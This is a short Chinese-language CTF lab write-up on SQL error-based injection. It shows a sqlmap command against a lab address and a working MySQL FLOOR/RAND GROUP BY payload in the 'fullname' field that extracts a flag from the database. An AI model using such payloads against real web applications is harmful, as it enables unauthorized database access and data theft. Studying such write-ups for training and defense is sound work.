




# Web-SQL报错注入

## 题意

打开界面后是这样的一个网页，里面有很多内容。

## 题解
首先根据题目考察的是SQL报错注入，考虑找到能够提交的地方，然后考虑闭合数据库格式。
发现在页面下方有一个Send Message的地方，先用sqlmap扫一下看看有没有注入点。


通过burp抓包可以发现会有一个send.php包


在cmd中输入以下命令
```
python sqlmap.py -u “http://172.17.0.15:14825/send.php” --data=“fullname=a&email=a%40fuck.shit&phone=a&subject=a&message=a&submit=”
```
从输出结果来看，在`fullname`字段存在注入点，其他字段没有发现注入点



因为本实验的题目是SQL报错注入，所以主要参考第二个`error-based`的payload进行构造，先检查数据库版本，看是否有回显


确认有回显以后，改成读取flag的payload，得到最终的flag
```
fullname=a' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT flag FROM flag LIMIT 1),0x7176766271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Zwpt&email=a@fuck.shit&phone=a&subject=a&message=a&submit=
```
